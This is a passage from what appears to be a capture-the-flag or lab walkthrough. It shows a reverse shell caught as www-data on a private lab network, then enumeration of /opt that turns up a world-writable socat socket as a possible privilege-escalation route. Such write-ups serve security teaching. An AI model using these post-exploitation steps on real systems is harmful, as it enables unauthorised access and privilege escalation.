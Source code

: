 Listener output:

```
listening on [any] 4444 ...
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 35698
bash: cannot set terminal process group (847): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.2$
```

Check identity:

```bash
id
```

Result:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We have a shell as `www-data`.

---

## Enumeration from web shell — looking for escalation paths

List `/opt`:

```bash
ls -la /opt
```

Output:

```
drwxr-xr-x  2 root root      4096 Aug 16 16:13 dev_server
drwxr-xr-x  2 helpdesk helpdesk 4096 Sep 18 17:33 helpdesk-socket
```

`/opt/helpdesk-socket` contains:

```
-rwxr-xr-x 1 helpdesk helpdesk 158 Aug 16 15:32 handler.sh
srwxrwxrwx 1 helpdesk helpdesk   0 Sep 18 17:33 helpdesk.sock
-rw-r--r-- 1 root     root     184 Aug 16 15:44 serve.sh
```

View `serve.sh`:

```bash
cat serve.sh
```

Contents:

```bash
#!/bin/bash

SOCKET="/opt/helpdesk-socket/helpdesk.sock"

[ -e "$SOCKET" ] && rm "$SOCKET"

/usr/bin/socat -d -d UNIX-LISTEN:$SOCKET,fork,mode=777 EXEC:/opt/helpdesk-socket/handler.sh
```

